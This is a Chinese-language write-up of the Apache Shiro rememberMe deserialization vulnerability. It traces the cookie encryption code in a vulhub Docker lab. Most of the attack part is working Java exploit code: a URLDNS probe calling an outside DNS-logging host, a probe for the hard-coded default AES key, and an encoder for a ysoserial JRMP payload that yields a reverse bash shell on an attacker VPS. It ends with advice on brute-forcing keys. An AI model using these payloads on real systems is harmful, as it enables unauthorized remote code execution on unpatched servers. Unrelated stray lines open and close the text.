




前言
关于shiro的反序列化漏洞，之前只是看了几篇分析文章，实战中打打EXP就结束了，这次来审计漏洞的根本原因。
影响范围
Apache Shiro < 1.2.4
配置环境
不得不说，shiro这个版本太旧了，配置环境花了一个中午，最终选择使用vulhub的docker远程调试。
version: '2'
services:
web:
image: vulhub/shiro:1.2.4
ports:
- "8085:8080"
- "5005:5005"
command: java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005 -jar /shirodemo-1.0-SNAPSHOT.jarShiro特征
提交表单登陆可以看到Set-Cookie: rememberMe=deleteMe;的字段。

漏洞成因
在shiro 1.2.4版本之前，RememberMe cookie中加密的序列化数据是通过AES密钥(硬编码如图)加密的。 这导致了我们在RememberMe功能中，可以通过修改cookie为我们恶意的序列化数据来打反序列化链。这个cookie的作用主要是用来保存用户的会话状态，具体的序列化数据加解密过程在后面分析。
大概的一个过程是shiro获取cookie中的rememberMe的值，将其base64解码后使用AES密钥解密，再进行反序列化。 换句话说，shiro生成的RememberMe cookie是先将序列化数据base64编码，再通过AES密钥加密。

Cookie加密
首先勾选rememberMe，使用账号密码登陆。可以看到来到onSuccessfulLogin方法中，判断勾选了rememberMe后进入rememberIdentity方法。

这里从箭头指向可以看到rememberIdentity方法重载的过程。之后进入convertPrincipalsToBytes方法， 先是serialize方法序列化登陆信息，之后进入encrypt方法进行加密。 这个convertPrincipalsToBytes方法是重点，基本上是构造shiro的remember cookie的过程。

这里可以看到使用了getEncryptionCipherKey方法获取密钥来加密，而这个密钥默认是从AbstractRememberMeManager方法中调用setCipherKey获取到的。

接着，返回加密后的byte数据，跟随变量流向进入rememberSerializedIdentity方法，

rememberSerializedIdentity方法中又对该数据进行base64编码后返回Set-Cookie。

URLDNS探测
这里先用jdk原生URLDNS链写个payload。
import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.io.SerializationException;
import org.apache.shiro.util.ByteSource;
import java.io.BufferedOutputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
public class EncryptPayload {
public byte[] serialize(Object o) throws SerializationException {
ByteArrayOutputStream baos = new ByteArrayOutputStream();
BufferedOutputStream bos = new BufferedOutputStream(baos);
try {
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(o);
oos.close();
return baos.toByteArray();
} catch (IOException var6) {
String msg = "Unable to serialize object [" + o + "]. " + "In order for the DefaultSerializer to serialize this object, the [" + o.getClass().getName() + "] " + "class must implement java.io.Serializable.";
throw new SerializationException(msg, var6);
}
}
public byte[] encrypt_aes(Object o){
byte[] bytes = this.serialize(o);
byte[] aes_key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
AesCipherService aesCipherService = new AesCipherService();
ByteSource bytesource = aesCipherService.encrypt(bytes,aes_key);
return bytesource.getBytes();
}
public static String base64_encode(byte[] bytes){
return Base64.encodeToString(bytes);
}
public String encrypt(Object o){
byte[] aes_encrypt = this.encrypt_aes(o);
return base64_encode(aes_encrypt);
}
static class SilentURLStreamHandler extends URLStreamHandler {
protected URLConnection openConnection(URL u) throws IOException {
return null;
}
protected synchronized InetAddress getHostAddress(URL u) {
return null;
}
}
public static void main(String[] args) throws Exception {
HashMap hashMap = new HashMap();
URLStreamHandler handler = new SilentURLStreamHandler();
URL url = new URL(null, "http://171717.ceye.io", handler);
Class clazz = Class.forName("java.net.URL");
Field f = clazz.getDeclaredField("hashCode");
f.setAccessible(true);
hashMap.put(url,"123");
f.set(url,-1);
String encrypt_data = new EncryptPayload().encrypt(hashMap);
System.out.println(encrypt_data);
}
}AES密钥探测
但有时候目标依赖环境用URLDNS探测不了AES密钥是否正确，所以需要用另外一种方法探测AES密钥是否正确。 这种方法大概是利用序列化一个空的SimplePrincipalCollection类的payload来判断页面回显是否正确。由于该类继承自PrincipalCollection类， 所以不会像反序列化利用链一样返回rememberMe=deleteMe，而当密钥不正确时，会因为解密失败而返回rememberMe=deleteMe;。
import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.io.SerializationException;
import org.apache.shiro.subject.SimplePrincipalCollection;
import org.apache.shiro.util.ByteSource;
import java.io.BufferedOutputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
public class ShiroKey {
public byte[] serialize(Object o) throws SerializationException {
ByteArrayOutputStream baos = new ByteArrayOutputStream();
BufferedOutputStream bos = new BufferedOutputStream(baos);
try {
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(o);
oos.close();
return baos.toByteArray();
} catch (IOException var6) {
String msg = "Unable to serialize object [" + o + "]. " + "In order for the DefaultSerializer to serialize this object, the [" + o.getClass().getName() + "] " + "class must implement java.io.Serializable.";
throw new SerializationException(msg, var6);
}
}
public byte[] encrypt_aes(Object o){
byte[] bytes = this.serialize(o);
byte[] aes_key = org.apache.shiro.codec.Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
AesCipherService aesCipherService = new AesCipherService();
ByteSource bytesource = aesCipherService.encrypt(bytes,aes_key);
return bytesource.getBytes();
}
public static String base64_encode(byte[] bytes){
return Base64.encodeToString(bytes);
}
public String encrypt(Object o){
byte[] aes_encrypt = this.encrypt_aes(o);
return base64_encode(aes_encrypt);
}
public static void main(String []args) throws Exception {
SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
String encrypt_data = new ShiroKey().encrypt(simplePrincipalCollection);
System.out.println(encrypt_data);
}
}AES密钥探测演示
key正确时页面无返回rememberMe=deleteMe;。
{kind=link}
key正确时页面返回rememberMe=deleteMe;。
{kind=link}
构造payload
这里有个比较坑的地方，构造CC1链的payload打过去发现报错了。 搜了一下相关原因并检查了一下，发现shiro中ClassResolvingObjectInputStream类继承ObjectInputStream类， 并且resolveClass被重写，所以需要做一些修改。如果要用cc链的话，需要修改transformers数组(无法加载除Java本身自带的数组)。 直接用JRMP打或者原生利用链也是可以的。

这里演示一下JRMP的打法，首先VPS开启JRMPListener。
{kind=link}
对ysoserial生成的JRMPClient序列化文件进行编码。
public static void FileEncode() throws IOException {
File file = new File("./shiro");
FileInputStream inputFile = new FileInputStream(file);
byte[] buffer = new byte[(int)file.length()];
inputFile.read(buffer);
AesCipherService aes = new AesCipherService();
byte[] key =java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
ByteSource ciphertext = aes.encrypt(buffer, key);
System.out.printf(ciphertext.toString());
}用生成的cookie打过去，VPS接收TCP传来的bash。
{kind=link}
EXP问题
1. aes的key不一定是kPH+bIxk5D2deZiIxcaaaA==，可能被修改。这里可以在github上找出现频率较高的key来爆破。
2. 该漏洞RCE无回显，可以通过依赖构造回显。
There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.